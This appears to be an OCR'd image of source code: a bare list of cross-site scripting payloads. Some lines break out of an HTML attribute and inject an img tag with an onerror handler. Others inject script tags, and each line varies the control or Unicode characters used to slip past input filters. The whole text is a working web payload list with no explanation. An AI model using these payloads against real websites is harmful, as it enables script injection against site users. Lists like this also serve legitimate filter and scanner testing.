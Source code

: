 `"'><img src=xxx:x \x0Aonerror=javascript:alert(1)>
`"'><img src=xxx:x \x22onerror=javascript:alert(1)>
`"'><img src=xxx:x \x0Bonerror=javascript:alert(1)>
`"'><img src=xxx:x \x0Donerror=javascript:alert(1)>
`"'><img src=xxx:x \x2Fonerror=javascript:alert(1)>
`"'><img src=xxx:x \x09onerror=javascript:alert(1)>
`"'><img src=xxx:x \x0Conerror=javascript:alert(1)>
`"'><img src=xxx:x \x00onerror=javascript:alert(1)>
`"'><img src=xxx:x \x27onerror=javascript:alert(1)>
`"'><img src=xxx:x \x20onerror=javascript:alert(1)>
"`'><script>\x3Bjavascript:alert(1)</script>
"`'><script>\x0Djavascript:alert(1)</script>
"`'><script>\xEF\xBB\xBFjavascript:alert(1)</script>
"`'><script>\xE2\x80\x81javascript:alert(1)</script>
"`'><script>\xE2\x80\x84javascript:alert(1)</script>
"`'><script>\xE3\x80\x80javascript:alert(1)</script>
"`'><script>\x09javascript:alert(1)</script>
"`'><script>\xE2\x80\x89javascript:alert(1)</script>
"`'><script>\xE2\x80\x85javascript:alert(1)</script>
"`'><script>\xE2\x80\x88javascript:alert(1)</script>
"`'><script>\x00javascript:alert(1)</script>
"`'><script>\xE2\x80\xA8javascript:alert(1)</script>
"`'><script>\xE2\x80\x8Ajavascript:alert(1)</script>
"`'><script>\xE1\x9A\x80javascript:alert(1)</script>
"`'><script>\x0Cjavascript:alert(1)</script>
"`'><script>\x2Bjavascript:alert(1)</script>
"`'><script>\xF0\x90\x96\x9Ajavascript:alert(1)</script>
"`'><script>-javascript:alert(1)</script>
"`'><script>\x0Ajavascript:alert(1)</script>
"`'><script>\xE2\x80\xAFjavascript:alert(1)</script>
"`'><script>\x7Ejavascript:alert(1)</script>
"`'><script>\xE2\x80\x87javascript:alert(1)</script>
"`'><script>\xE2\x81\x9Fjavascript:alert(1)</script>
"`'><script>\xE2\x80\xA9javascript:alert(1)</script>
"`'><script>\xC2\x85javascript:alert(1)</script>
"`'><script>\xEF\xBF\xAEjavascript:alert(1)</script>
"`'><script>\xE2\x80\x83javascript:alert(1)</script>
"`'><script>\xE2\x80\x8Bjavascript:alert(1)</script>
"`'><script>\xEF\xBF\xBEjavascript:alert(1)</script>
"`'><script>\xE2\x80\x80javascript:alert(1)</script>
"`'><script>\x21javascript:alert(1)</script>
"`'><script>\xE2\x80\x82javascript:alert(1)</script>
"`'><script>\xE2\x80\x86javascript:alert(1)</script>
"`'><script>\xE1\xA0\x8Ejavascript:alert(1)</script>
"`'><script>\x0Bjavascript:alert(1)</script>
"`'><script>\x20javascript:alert(1)</script>
